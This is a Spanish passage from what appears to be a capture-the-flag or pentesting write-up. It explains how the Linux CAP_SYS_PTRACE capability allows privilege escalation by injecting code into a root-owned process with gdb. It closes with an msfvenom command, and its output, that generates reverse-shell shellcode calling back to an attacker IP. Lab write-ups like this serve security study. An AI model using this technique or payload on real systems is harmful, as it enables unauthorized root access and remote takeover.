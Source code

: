 ## Abusing SYS_PTRACE

La capacidad `CAP_SYS_PTRACE` en Linux es una capacidad del kernel que otorga permisos especiales relacionados con la depuración y la inspección de procesos. Aquí te explico qué te permite hacer:

### 1. **Depuración de Procesos**

- Permite que un proceso trace o depure otros procesos. Esto incluye el uso de herramientas como `gdb`, `strace`, o `ptrace`, que son fundamentales para depurar programas o monitorear su ejecución.
- Normalmente, un proceso sólo puede depurar (trazar) a otro proceso si es hijo suyo o si ambos procesos tienen el mismo ID de usuario efectivo. Con `CAP_SYS_PTRACE`, este requisito se relaja, permitiendo que un proceso con esta capacidad pueda depurar cualquier otro proceso en el sistema, independientemente del propietario.

### 2. **Acceso a la Memoria y Estado de Otros Procesos**

- Con `CAP_SYS_PTRACE`, un proceso puede acceder y modificar la memoria de otros procesos, lo cual es esencial para herramientas de inyección de código o para manipular el estado de ejecución de otro proceso.
- También permite inspeccionar o alterar registros y otros estados internos de un proceso.

### 3. **Acciones Avanzadas de Depuración**

- La capacidad permite otras acciones avanzadas relacionadas con la depuración, como la manipulación de breakpoints y la captura de señales antes de que lleguen al proceso depurado.

### 4. **Saltarse Restricciones de Seguridad**

- `CAP_SYS_PTRACE` también permite que un proceso pase por alto ciertas restricciones de seguridad. Por ejemplo, podría leer datos de procesos que de otro modo no estarían accesibles debido a las políticas de control de acceso.

### **Riesgos de Seguridad**

- **Elevado potencial de abuso:** Debido a que permite acceso completo a otros procesos, esta capacidad representa un riesgo de seguridad significativo si se concede a un proceso no confiable, ya que podría ser usada para robar datos, modificar el comportamiento de aplicaciones, o incluso para escalar privilegios en el sistema.
- **Uso limitado a procesos de confianza:** Por estas razones, `CAP_SYS_PTRACE` generalmente se limita a procesos confiables, como depuradores, o administradores de sistemas que necesitan realizar tareas específicas de diagnóstico.

En resumen, que aprovechándonos de esta capability podemos escalar privilegios ya que se nos permite adjuntar `gdb` a un proceso que esté ejecutando `root` y acto seguido modificar la memoria para conseguir ejecutar un comando a nivel de sistema.

Hay un [artículo en HackTricks](https://book.hacktricks.xyz/v/es/linux-hardening/privilege-escalation/linux-capabilities) que justo contempla este caso.

Creamos nuestro shellcode para mandarnos una reverse shell.

```shell
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f py -o revshell.py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of py file: 384 bytes
Saved as: revshell.py
```
